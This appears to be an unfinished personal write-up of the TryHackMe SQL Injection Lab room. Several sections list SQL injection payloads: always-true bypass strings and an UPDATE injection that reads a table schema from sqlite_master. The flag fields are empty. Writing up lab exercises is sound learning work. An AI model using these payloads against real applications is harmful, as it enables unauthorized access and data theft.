

[https://tryhackme.com/room/sqlilab](https://tryhackme.com/room/sqlilab)

This room, [SQL Injection Lab](https://tryhackme.com/r/room/sqlilab), is meant as an introduction to SQL injection and demonstrates various SQL injection attacks. It is not meant as a way to learn the SQL language itself. Some previous knowledge of the SQL language is highly recommended.

## Injection 1 : Input Box Non-String


```sql
1 or 1=1-- -
``` 


**FLAG :**


## Injection 2 : Input Box String


```sql
1' or '1'='1'-- -
```


**FLAG :**


## Injection 3 : URL Injection


**FLAG :**


## Injection 4 : POST Injection


**FLAG :**


## Injection 5 : UPDATE Statement

- Préalable :


---


```
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
```


**FLAG :**

